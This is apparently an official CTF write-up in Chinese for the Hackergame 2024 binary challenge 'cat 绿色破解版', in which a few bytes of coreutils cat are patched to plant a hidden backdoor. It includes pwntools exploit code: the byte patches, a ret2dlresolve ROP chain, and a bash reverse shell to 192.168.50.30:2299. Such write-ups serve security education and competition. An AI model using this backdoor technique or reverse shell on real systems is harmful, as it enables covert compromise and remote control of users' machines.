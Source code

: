 # cat 绿色破解版

题解作者：[eastXueLian](https://github.com/AvavaAYA)

出题人、验题人、文案设计等：见 [Hackergame 2024 幕后工作人员](../../credits.pdf)。

## 题目描述

- 题目分类：binary

- 题目分值：350

在电脑里装满了「`[0-9]{3,4}` 全家桶」、「`..` 壁纸」等软件后，小 E 同学不得不购入新电脑。

但是小 E 还是不舍得购入正版软件：「众所周知，软件破解做的事情不过是在关键地方改个跳转、NOP 掉少许指令或者清除几个字节罢了。我会仔细检查破解软件与原版软件的区别，确保只有不超过 5 字节被修改为跳转指令、NOP 指令或者 0」。

「让我来试试这个群里看到的 `cat` 绿色破解版有什么不一样」

> **上述场景和情节均为虚构，未基于任何真实事件或人物。如与现实有任何相似之处，纯属巧合。**

附件中包含从 [coreutils-9.5](https://ftp.gnu.org/gnu/coreutils/coreutils-9.5.tar.xz) 源码编译得到的 `cat` 程序。作为一名顶尖黑客，你的任务是在不引起小 E 警觉的情况下，通过魔改 `cat` 程序来控制他的新电脑。

你可以在原程序的基础上篡改至多五字节，需要满足以下条件：

1. 只能修改代码段从 `_start` 函数到 `_term_proc` 函数之间的内容
2. 修改的偏移量之间相差不能小于 8
3. 小 E 会依次检查每个改动的字节，确保它们属于跳转指令、NOP 指令或者零；**其中小 E 会有一次眼花**

检查脚本见附件 `xiao_E_checker.py`。

在修改完成后，小 E 会进行功能上的验证，包括：

1. 检查 cat 的输出是否正确：`cat secret`
2. 与你通过标准输入进行交互：`cat secret -`

你的目标是传入特定的数据，触发植入的后门，从而将自己的大名留在小 E 新电脑的 `/dev/shm/hacked` 文件中获取 flag。

**[点击下载题目附件](files/green_cat.zip)**

你可以通过 `nc 202.38.93.141 31339` 来连接，或者点击下面的「打开/下载题目」按钮通过网页终端与远程交互。

> 如果你不知道 `nc` 是什么，或者在使用上面的命令时遇到了困难，可以参考我们编写的 [萌新入门手册：如何使用 nc/ncat？](https://lug.ustc.edu.cn/planet/2019/09/how-to-use-nc/)

[打开/下载题目](http://202.38.93.141:31340/?token={token})

## 题解

本题的 idea 是 [@zzh1996](https://github.com/zzh1996) 的。我做了实现。

题目模拟了一个破解软件植入后门的场景：通过修改跳转指令或者 `NOP` 部分字节植入隐蔽的后门，最终实现任意代码执行。

笔者选择了逻辑相对简单的 cat 程序并将目光放在 `simple_cat` 函数中：

- 前两处 patch 都是针对 `safe_read (input_desc, buf, bufsize)` 和 `full_write (STDOUT_FILENO, buf, n_read)` 中的 `buf`。在函数中 `buf` 作为实参被放在栈上，在使用时表示为 `QWORD PTR [rbp-0x38]`。为避免影响 `canary`，可以通过清零相应字节把缓冲区转移到主函数的栈底，即 `QWORD PTR [rbp]`。现在拥有了栈溢出劫持控制流的能力。

- 为了避免传入 `EOF`，可以选择将写任意字节的能力用于修改跳转 `0x402f9c: je 0x402ef9 <simple_cat+0x15>`，使 `simple_cat` 经过一轮 `read` / `write` 后就直接返回。

- 但是发现主函数中会执行 `close(0)`，故定位到其前面的条件判断，修改 `0x4041ca: je 0x40422c <main+0xa1d>` 中的跳转指令为 `jne`。现在拥有了任意地址读写的能力。

```python
    io.recvuntil(b"[*] How many bytes do you want to modify?")
    io.sendline(i2b(4))
    io.recvuntil(b"[*] Enter offset: ")
    io.sendline(i2b(0x2F87 + 3))
    io.recvuntil(b"[*] Enter data: ")
    io.sendline(i2b(0))

    io.recvuntil(b"[*] Enter offset: ")
    io.sendline(i2b(0x2F03 + 3))
    io.recvuntil(b"[*] Enter data: ")
    io.sendline(i2b(0))

    io.recvuntil(b"[*] Enter offset: ")
    io.sendline(i2b(0x41CA))
    io.recvuntil(b"[*] Enter data: ")
    io.sendline(i2b(0x75))

    io.recvuntil(b"[*] Enter offset: ")
    io.sendline(i2b(0x2F9E))
    io.recvuntil(b"[*] Enter data: ")
    io.sendline(i2b(0xDA))
    io.recvuntil(b"RUNNING!\n")
```

关于利用，笔者希望通过 `ret2dlresolve` 来实现 `getshell`，利用方法如下：

```python
my_buf = 0x40D000 + 0x480
l_addr = libc.sym.system - libc.sym.free
r_offset = my_buf + 0x200 - l_addr
fake_rel_addr = my_buf + 0x38

if l_addr < 0:
    l_addr = (1 << 64) + l_addr

dynstr = elf.get_section_by_name(".dynstr").header.sh_addr
plt0 = elf.get_section_by_name(".plt").header.sh_addr
read_plt = elf.plt.read

somegadget_2_ctl_rdx_0 = (
    0x0000000000402BBC  # cmp dword ptr [rbp - 4], 0x5f ; sete al ; pop rbp ; ret
)
somegadget_2_ctl_rdx_1 = 0x0000000000407E75  # pop rdx ; jg 0x40810a
ctl_rdi = 0x0000000000406E0E  # pop rdi ; pop rbp ; ret
ctl_rsi = 0x0000000000406E0C  # pop rsi ; pop r15 ; pop rbp ; ret
ctl_rbp = 0x000000000040285D  # pop rbp ; ret

payload = flat(
    {
        8: [
            ctl_rbp,
            0x40D2A0 + 4,
            somegadget_2_ctl_rdx_0,
            0x40D2A0 + 4,
            somegadget_2_ctl_rdx_1,
            0x200,  # rdx
            0,  # rbp
            ctl_rdi,  # ret
            0,
            0,
            ctl_rsi,
            my_buf,
            0,
            0,
            read_plt,
            ctl_rbp + 1,
            ctl_rdi,
            my_buf + 0x100,
            0,
            0x402026,
            my_buf,
            0,
        ]
    }
)
io.send(payload)

payload = flat(
    {
        0x00: [l_addr],
        0x08: [0x05, dynstr],
        0x18: [0x06, 0x40D000 - 8],
        0x28: [0x11, fake_rel_addr],
        0x38: [r_offset, 7],
        0x68: [
            my_buf + 0x08,
            my_buf + 0x18,
        ],
        0xF8: [my_buf + 0x28],
        0x100: b"bash -i >& /dev/tcp/192.168.50.30/2299 0>&1\x00",
    },
)
io.send(payload)
```

为了增加趣味性，简化最后一步利用，题目要求选手将 `hacked by xxx` 写入 `/dev/shm/hacked` 以得到 flag。不过这也使得 `open` + `write` 的 `ROP` 链就能完成目标，在不 `getshell` 的情况下可以只用 2 字节的修改拿到 flag，代码见 [open_write_exp.py](src/open_write_exp.py)。

完整利用代码见 [green_cat-exp.py](./src/green_cat-exp.py)。

---

## 出题思路提供者的话

本节作者：[@zzh1996](https://github.com/zzh1996)

我其实很早就想过一个问题：如果下载到一个破解版软件，然后跟原版 diff 发现只是修改了其中的两个跳转指令，或者 NOP 掉了一些检查，那我们是否可以相信，运行这个破解版（不考虑软件原作者故意搞事情）是否可以相信是安全的？

我想了想应该不能保证是安全的，所以就想出这道题。然而我不太会 pwn，所以跟 [eastXueLian](https://github.com/AvavaAYA) 说了一下想法，他把这个思路出成了题。虽然也不是完全还原这个场景，但是我觉得还是蛮有趣的。如果把 cat 换成一些更复杂的软件，说不定改一个字节就可以做到类似效果。
